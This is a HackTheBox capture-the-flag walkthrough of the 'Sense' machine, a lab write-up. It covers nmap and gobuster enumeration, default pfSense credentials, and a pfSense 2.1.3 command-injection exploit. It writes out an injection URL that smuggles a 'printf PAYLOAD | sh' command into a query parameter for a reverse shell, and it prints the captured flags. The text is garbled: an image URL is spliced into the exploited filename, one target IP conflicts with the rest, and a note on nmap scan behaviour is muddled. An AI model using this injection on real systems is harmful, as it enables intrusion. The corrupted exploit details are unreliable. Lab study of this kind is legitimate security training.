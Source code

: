 ```yaml
---
title: HackTheBox - Sense
date: 2021-01-19 21:50:04 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, FreeBSD, pfSense, gobuster, default credentials, searchsploit, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/Sense.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Sense-full-port-scan.txt 10.10.10.60
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

> **WARNING**: By default, `nmap` does only a SYN scan (only the first two parts of a TCP handshake &rarr; SYN, SYN/ACK, ACK). We can add `-sT` option to do a full TCP scan. Doing just a SYN scan speeds things up. The downside is that if firewall products notice that you never completing the whole handshake, it may flag you as a bot and block you.

### lighttpd/1.4.35 (ports 80 & 443)

![pfSense](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/80.png)

It looks like an old pfSense login page.

#### `gobuster`

```bash
$ gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x .txt -k
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2021/01/19 18:13:18 Starting gobuster
===============================================================
/themes (Status: 301)
/css (Status: 301)
/includes (Status: 301)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/widgets (Status: 301)
/tree (Status: 301)
/shortcuts (Status: 301)
/installer (Status: 301)
/wizards (Status: 301)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7echeckout%7e (Status: 403)
===============================================================
2021/01/19 19:30:07 Finished
===============================================================
```

We can take a look at the two txt files.

> **TIP**: If we use `nikto`, the firewall blocks our IP address. Probably due to some brute-force. An advice, consider bigger wordlists like `/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt` rather than `/usr/share/wordlists/seclists/Discovery/Web-Content/common.txt` before running scanners like nikto.

#### `/changelog.txt`

![changelog.txt](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/80-changelog.png)

Considering these notes, we'll probably have to exploit a vulnerability on pfSense. 

#### `/system-users.txt`

![system-users.txt](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/80-system-users.png)

PfSense default password (source: https://pfsense-docs.readthedocs.io/en/latest/usermanager/pfsense-default-username-and-password.html):

![PfSense default password](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/default_pass.png)

Now we have some credentials:
- **username**: `rohit`
- **password**: `pfsense`

#### pfSense dashboard

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/80-release.png)

We can see pfSense version number: `2.1.3`.

## Exploitation

Let's take a look at searchsploit:

![searchsploit](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/searchsploit.png)

![exploit](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/exploit.png)

This exploit just run a reverse shell bash command via the following URL:

`https://10.10.10.160/status_rrd_graph_https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense.php?database=queues;printf'PAYLOAD'|sh`

![payload](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/payload.png)

- Flags:

```console
$ cat /root/root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
$ cat /home/rohit/user.txt
8721327cc232073b40d27d9c17e7348b
```
___

## Useful links

- [pfSense < 2.1.4 - 'status_rrd_graph_https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense.php' Command Injection ](https://www.exploit-db.com/exploits/43560)
- [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688)